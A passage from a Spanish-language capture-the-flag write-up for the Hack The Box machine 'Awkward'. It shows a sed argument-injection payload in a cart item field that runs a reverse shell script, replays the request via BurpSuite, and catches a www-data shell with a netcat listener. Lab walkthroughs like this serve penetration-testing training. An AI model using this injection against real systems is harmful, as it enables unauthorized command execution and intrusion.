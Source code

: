 Ahora modificamos para que el `sed` nos ejecute la reverse shell

```shell
bean@awkward:/var/www/store/cart$ cat dasf-1242-412-ae41
***Hat Valley Cart***
item_id=1' -e "1e /tmp/reverse.sh" /tmp/reverse.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
bean@awkward:/var/www/store/cart
```

En la web vamos al carrito y eliminamos el item, pero vamos a interceptarlo con BurpSuite

![](/assets/img/HTB/Awkward/pagina2.png)

Agregamos a la petición lo mismo que al archivo pero convertimos el espacio a +

![](/assets/img/HTB/Awkward/burpsuite.png)

Al darle a `forward`, se ejecuta el script y recibimos la reverse shell

```shell
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.185
www-data@awkward:~/store$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@awkward:~/store$ hostname -I
10.10.11.185 dead:beef::250:56ff:feb9:8ab1 
www-data@awkward:~/store$
```
